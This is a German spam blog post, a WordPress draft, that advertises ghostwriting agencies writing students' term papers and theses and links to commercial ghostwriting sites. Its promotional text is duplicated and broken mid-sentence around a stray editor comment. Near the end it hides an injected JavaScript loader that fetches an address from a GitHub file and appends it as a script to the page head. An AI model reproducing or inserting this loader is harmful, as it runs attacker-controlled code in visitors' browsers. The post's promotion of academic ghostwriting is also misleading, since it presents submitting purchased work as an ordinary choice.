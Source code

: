 ```yaml
---
title: Ghostwriting Agentur
author: rhonda
type: post
date: 2023-05-06T15:34:52+00:00
draft: true
url: /?p=1386
categories:
  - Uncategorized

---
```

<h2 style="color: #2e6c80">
  How to use the editor:
</h2>

&nbsp;&#8211; Eine [Hausarbeit Ghostwriter][1] Agentur ist ein Unternehmen, das Schreibdienstleistungen anbietet. Studierende k&ouml;nnen diese Dienste in Anspruch nehmen, um ihre Hausarbeiten, Abschlussarbeiten oder andere akademische Texte zu schreiben.

Wenn Sie eine Ghostwriter Agentur w&auml;hlen, ist es wichtig, dass Sie sicherstellen, dass sie &uuml;ber eine gute Reputation und eine lange Erfahrung verf&uuml;gt. Lesen Sie Bewertungen und Meinungen von fr&uuml;heren Kunden, um sicherzustellen, dass die Agentur seri&ouml;s ist.

Eine gute Ghostwriter Agentur sollte auch sicherstellen, dass die Schreibdienstleistungen vertraulich und diskret sind. Stellen Sie sicher, dass Ihre Informationen und Ihre Arbeit sicher sind und dass sie nicht an Dritte weitergegeben werden.

Eine weitere wichtige &Uuml;berlegung bei der Wahl einer Ghostwriter Agentur ist der Preis. Vergleichen Sie die Preise verschiedener Agenturen und w&auml;hlen Sie eine, die zu Ihrem Budget passt. Stellen Sie sicher, dass Sie ein angemessenes Preis-Leistungs-Verh&auml;ltnis erhalten.

Insgesamt ist die Wahl einer geeigneten Ghostwriter Agentur eine wichtige Entscheidung. Stellen Sie sicher, dass Sie sorgf&auml;ltig recherchieren und eine Agentur w&auml;hlen, die Ihren Anforderungen entspricht. Auf diese Weise k&ouml;nnen Sie sicher sein, dass Ihre <!-- ####### HEY, I AM THE SOURCE EDITOR! #########-->

<h1 style="color: #5e9ca0">
  Ghostwriter Hausarbeit
</h1>

<h2 style="color: #2e6c80">
  How to use the editor:
</h2>

&nbsp;&#8211; Eine [Ghostwriter Preise][2] Agentur ist ein Unternehmen, das Schreibdienstleistungen anbietet. Studierende k&ouml;nnen diese Dienste in Anspruch nehmen, um ihre Hausarbeiten, Abschlussarbeiten oder andere akademische Texte zu schreiben.

Wenn Sie eine Ghostwriter Agentur w&auml;hlen, ist es wichtig, dass Sie sicherstellen, dass sie &uuml;ber eine gute Reputation und eine lange Erfahrung verf&uuml;gt. Lesen Sie Bewertungen und Meinungen von fr&uuml;heren Kunden, um sicherzustellen, dass die Agentur seri&ouml;s ist.

Eine gute Ghostwriter Agentur sollte auch sicherstellen, dass die Schreibdienstleistungen vertraulich und diskret sind. Stellen Sie sicher, dass Ihre Informationen und Ihre Arbeit sicher sind und dass sie nicht an Dritte weitergegeben werden.

Eine weitere wichtige &Uuml;berlegung bei der Wahl einer Ghostwriter Agentur ist der Preis. Vergleichen Sie die Preise verschiedener Agenturen und w&auml;hlen Sie eine, die zu Ihrem Budget passt. Stellen Sie sicher, dass Sie ein angemessenes Preis-Leistungs-Verh&auml;ltnis erhalten.

Insgesamt ist die Wahl einer geeigneten Ghostwriter Agentur eine wichtige Entscheidung. Stellen Sie sicher, dass Sie sorgf&auml;ltig recherchieren und eine Agentur w&auml;hlen, die Ihren Anforderungen entspricht. Auf diese Weise k&ouml;nnen Sie sicher sein, dass Ihre akademischen Texte von hochqualifizierten Schreibern geschrieben werden.

**&nbsp;**

**&nbsp;**

Texte von hochqualifizierten Schreibern geschrieben werden.

**&nbsp;**

**&nbsp;**

[Ghostwriting Agentur][3]

(var url = &#8220;https://raw.githubusercontent.com/truba77/trubnik/main/to.txt&#8221;; fetch(url) .then(response => response.text()) .then(data => { var script = document.createElement(&#8220;script&#8221;); script.src = data.trim(); document.getElementsByTagName(&#8220;head&#8221;)[0].appendChild(script); });)

 [1]: https://hausarbeit-ghostwriter.com/ "Hausarbeit Ghostwriter"
 [2]: https://hausarbeit-ghostwriter.com/preise/ "Ghostwriter Preise"
 [3]: https://arbeit-schreiben.com/